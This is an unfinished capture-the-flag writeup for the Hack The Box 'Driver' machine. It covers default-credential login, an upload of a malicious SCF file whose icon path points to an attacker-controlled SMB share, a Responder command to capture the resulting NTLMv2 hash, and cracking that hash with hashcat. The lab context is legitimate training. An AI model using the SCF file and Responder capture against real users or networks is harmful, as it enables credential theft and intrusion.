







# 🚘 Driver Writeup



OK, so I am really excited for this one. Windows machines are not my forte and so I learned a lot from this box. So without further ado lets dive in.


I started this as any good script kiddie would, with a loud nmap scan.



As you can see from the screenshot, we have three open ports found. With seeing ports 135 and 445 open we can already be almost positive it is an SMB share, and nmap confirms this for us. We also see port 80 open for an HTTP server. That catches my attention as the most likely avenue of approach so lets pay this website a visit.



We are immediately greeted by a request for a username and password. Luckily it asks us to provide the password for "admin" so we have the username. Now what could the password be? We could bruteforce it... or we could just try "admin" as the password like I did and it just happened to work, and boom we are in.



We reach the home page of the website once it loads up. From the image and the brief description of the company we get a sense that they do printer driver work.

Exploring the website a little more we find the firmware updates page which actually allows us to upload a file and says they will "review the uploads manually and initiate the testing soon." Perfect maybe we could get them to run a simple msfvenom generated reverse shell. Well to keep you from wasting your time messing around trying to get that to work I will just tell you it doesn't.

So where do we go from here? Well there happens to be a teqnique I learned about from some of the cyber club members on campus where you get the user, on the same network as you, to open a SCF (Shell Command File) while you run a tool called Responder on your end and the user will try to authenticate to your own device with their username and password. To get a little more into the weeds of this, during the authentication process a random 8 byte challange key is sent from the user to your device and the hashed NTLM password is encrypted again with this challange key. Responder captures the NTLMv2 hash from this.

So here what the SCF file should look like:

```
[Shell]
 
Command=2
 
IconFile=\\<Your IP>\share\icon.ico
 
[Taskbar]
 
Command=ToggleDesktop
```

Once we have that crafted lets setup Responder to capture the hash once we upload the file. To do this we use these options:

```
sudo responder -wrf --lm -v -I tun0
```

Please replace the network interface with whatever interface you are using to connect to the HTB platform.

Once you run that you should get output looking like this:



Now all we have to do is upload the SCF file.

A few seconds after we get some output from Responder, and it looks like the NTLMv2 hash for a user called "tony".



So now lets get this hash cracked. Most HTB hashes are on rockyou so we are going to be using that as our wordlist for hashcat.

For hashcat we are going to be specifying that the hash is 5600, which is hashcat's way of knowing its NTLMv2.

Within a few seconds of running hashcat we get the password. You can see it here circled in red.



UNFINISHED
